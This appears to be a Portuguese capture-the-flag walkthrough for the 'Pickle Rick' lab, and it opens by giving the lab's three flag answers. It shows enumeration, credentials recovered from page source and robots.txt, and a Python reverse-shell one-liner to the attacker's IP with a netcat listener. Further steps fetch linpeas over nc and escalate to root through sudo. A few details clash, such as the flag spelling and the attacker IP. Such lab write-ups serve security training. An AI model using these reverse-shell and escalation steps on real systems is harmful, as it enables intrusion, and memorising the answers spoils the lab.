 # Lab: Pickle Rick (Easy Mode)

## TASKs:

1. **What is the first ingredient that Rick needs?** `mr. meeseek hair`
2. **What is the second ingredient in Rick’s potion?** `1 jerry tear`
3. **What is the last and final ingredient?** `fleeb juice`

---

```
export IP=10.10.89.179
```
```
ip addr show tun0 # 10.8.32.62/16
```

---

## 1) Enumeração com Nmap
```bash
nmap -A $IP
```
**Resultados:**
```
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
```
**Fonte Inspecionada:** 
`http://10.10.89.179/` -> **Username:** `R1ckRul3s`

---

## 2) Enumeração com Gobuster
```bash
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://$IP -x php,sh,txt,html,js,css,py
```

**Diretórios e Arquivos Encontrados:**
`/assets/`
`/robots.txt` -> `Wubbalubbadubdub`
`/login.php` -> Username: `R1ckRul3s` , Password: `Wubbalubbadubdub`
`/portal.php` -> (INFO: Após Login!) -> `Command Panel: "ls", "less", "grep .", "grep -R ." -> (toda a info de todos os ficheiros)`


**Flags Identificadas:**
`Sup3rS3cretPickl3Ingred.txt:` `mr. meeseek hair` (INFO: FLAG!)
`clue.txt:` `Look around the file system for the other ingredient.`


**Comandos Não Permitidos:**
```php
$cmds = array("cat", "head", "more", "tail", "nano", "vim", "vi");
```

**Encontrado. Possível Codificação Base64:**
```
Vm1wR1UxTnRWa2RUV0d4VFlrZFNjRlV3V2t0alJsWnlWbXQwVkUxV1duaFZNakExVkcxS1NHVkliRmhoTVhCb1ZsWmFWMVpWTVVWaGVqQT0==
```

---

## 3) Decodificação Base64
```bash
echo Vm1wR1UxTnRWa2RUV0d4VFlrZFNjRlV3V2t0alJsWnlWbXQwVkUxV1duaFZNakExVkcxS1NHVkliRmhoTVhCb1ZsWmFWMVpWTVVWaGVqQT0== | base64 -d | base64 -d | base64 -d | base64 -d | base64 -d | base64 -d | base64 -d
```
**Resultado:**
`rabbit hole`

---

## 4) Verificação e Exploração Python
```bash
python3 -c "print('hello')" # Verificar se python3 está disponível
```

**Reverse Shell (Github Reverse Shell CheatSheet)**
```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.8.32.62",9999));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"]);'
```

**Listener no Terminal:**
```bash
netcat -lnvp 9999
```

---

## 5) Estabilização de Shell
**Erro apresentado:**
`/bin/sh: 0: can't access tty; job control turned off`

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

**Correção:**
```bash
export TERM=xterm
ls
```

---

## 6) Escalada de Privilégios
```bash
stabilize_shell3.sh
upload_file_nc.sh /opt/linpeas.sh
```

**Execução do Linpeas:**
```bash
nc -q 0 10.8.9.112 19934 > /dev/shm/lin
cd /dev/shm
ls # linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

**Identificação:**
`(ALL) NOPASSWD: ALL (INFO: Acesso total sem senha)`

**Escalação para Root:**
```bash
sudo bash
```

**Flags Encontradas:**
```bash
ls # 3rd.txt
cat 3rd.txt # feeb juice
```

**Exploração de Diretórios de Usuário:**
```bash
cd /home
ls # rick
cd rick/
ls # second ingredientes
cat * # 1 jerry tear
```
